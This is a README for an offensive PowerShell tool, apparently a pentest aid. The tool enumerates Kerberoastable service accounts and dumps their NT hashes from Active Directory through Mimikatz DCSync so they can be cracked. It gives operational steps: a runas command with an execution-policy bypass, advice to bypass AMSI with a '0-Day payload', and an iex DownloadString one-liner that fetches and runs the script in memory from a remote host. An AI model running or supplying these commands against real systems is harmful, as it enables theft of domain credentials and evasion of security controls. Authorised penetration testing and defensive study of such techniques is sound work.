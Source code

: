 # Invoke-SPNDCSync

PowerShell script to enumerate Kerberoastable SPN user account and retrieve their NT-Hash via Mimikatz for password cracking.

This is an alternative to cracking Kerberos-Hashes, since NT-Hashes can be cracked 135 times faster.

## General Preparation

1. Connect to the internal AD network via VPN or directly, if on-site.
2. Configure your operating system's proxy to use the client's proxy. Internet is required to download Invoke-Mimikatz and Invoke-DCSync PS scripts. Alternatively, configure a known proxy via PS:

````
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings" -Name ProxyServer -Value "127.0.0.1:8080"
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings" -Name ProxyEnable -Value 1
````
3. Open a new PowerShell terminal as another user; use a privileged domain user account with DCSync rights

````
runas.exe /netonly /noprofile /user:mydomain.prod.dom\dcsyncUser "powershell.exe -ep bypass"
````

4. Verify authenticated AD access within your PowerShell terminal window

## SPN DCSync Preparation

It is recommended to bypass AMSI for the current PowerShell session. Use a 0-Day payload!

# SPN DCSync Execution

Download ``Invoke-SPNDCSync.ps1`` into memory, which executes the DCSync process.

As a result, we will obtain four files located under C:\temp\ directory:

1. **DCSync_NTLM_full**: Just the complete logfile of running Mimikatz
2. **DCSync_NTLM_Hashes**: Only contains the NT-Hashes
3. **DCSync_NTLM_Users**: Only contains the employee's username
4. **DCSync_NTLM_UserHash_Import**: Contains the tuple of username and hash

````
iex(new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/pentestfactory/Invoke-SPNDCSync/main/Invoke-SPNDCSync.ps1')
````
